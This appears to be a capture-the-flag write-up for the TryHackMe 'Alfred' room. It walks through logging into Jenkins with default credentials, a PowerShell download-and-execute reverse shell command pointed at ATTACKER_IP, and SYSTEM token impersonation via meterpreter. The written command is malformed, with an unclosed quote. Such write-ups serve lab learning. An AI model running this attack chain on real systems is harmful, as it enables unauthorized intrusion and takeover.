

To access the machine, click on the link given below:
- https://tryhackme.com/room/alfred

# SCANNING

I performed an **nmap** aggressive scan on the target to identify the open ports and the services running on them.


# FOOTHOLD

The target had  http service running on port 80 and 8080, so I accessed them through my browser.


I found a **jenkins** login page on port 8080.


I also viewed the *robots.txt* file that was identified by the **nmap** scan.


I googled default credentials for **Jenkins** and found the default username.


I tried few combinations and logged in using the credentials:
- username: `admin`
- password: `admin`


With access to jenkins, I could execute code to get a reverse shell. I downloaded the `Invoke-PowerShellTcp.ps1` script from **nishang**.
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

I then started an http server to host the powershell script.


On **Jenkins**, I created a new project, new build, then added a command to download the reverse shell script and send a shell to my system.


I used the following command:

```
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port ATTACKER_PORT)
```


Finally, I started a **netcat** listener and built the project.


I got a reverse shell from the target and captured the user flag from *`C:\Users\bruce\Desktop`*.


# PRIVILEGE ESCALATION

I viewed my privileges and found that I had the **`SeImpersonatePrivilege`** enabled.


For better functionality and usability, I created an **msfvenom** payload to get a **meterpreter** shell.




After getting **meterpreter** shell, I loaded the **incognito** module for token impersonation.


I then listen available tokens and Found `NT AUTHORITY\SYSTEM`. I then impersonated the account and got SYSTEM access.


I had a 32 bit session so I upgraded it to 64 bit by migrating to a 64 bit process. Finally, I captured the root flag from `C:\Windows\System32\config\root.txt`


---
